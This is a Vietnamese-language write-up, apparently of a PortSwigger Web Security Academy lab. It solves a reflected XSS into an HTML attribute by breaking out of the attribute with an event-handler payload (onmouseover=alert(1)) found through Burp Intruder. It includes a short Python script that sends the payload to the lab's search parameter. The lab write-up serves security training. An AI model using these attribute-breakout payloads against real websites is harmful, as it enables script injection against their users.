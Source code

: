 ![image](https://hackmd.io/_uploads/HJUndtL9p.png)

![image](https://hackmd.io/_uploads/ryDjuF85a.png)

mình thử payload `"onfocus="alert(1)` đã khai thác được XSS trên máy mình nhưng chưa giải quyết được bài lab và như đề bài đã gợi ý mình khai thác được trên máy mình nhưng chưa chắc đã thành công trên máy victim và mình cần tìm 1 handle khác để kích hoạt `alert`

![image](https://hackmd.io/_uploads/S1CtYYI96.png)

- và mình cần thử các event mà Portswigger cung cấp
- mình đưa vào intruder và thử

![image](https://hackmd.io/_uploads/SyLnjF89a.png)

![image](https://hackmd.io/_uploads/BJpjhK85p.png)

và để ý khi chạy đến ==onmouseover== lab đã được giải quyết

![image](https://hackmd.io/_uploads/rJ6M2YL56.png)

- sử dụng payload `"onmouseover="alert(1)`

mình đã viết lại script khai thác

```python
#!/usr/bin/python3.7
import requests
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a5d00ee036d726a806a12af009f006e.web-security-academy.net'

payload = "\"onmouseover=\"alert(1)"
response = requests.get(
    url + "/?search=" + payload ,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

mục đích của chúng ta đã hoàn thành và mình cũng dã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/HyXL8tIca.png)

## 8. Stored XSS into anchor href attribute with double quotes HTML-encoded

link: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded
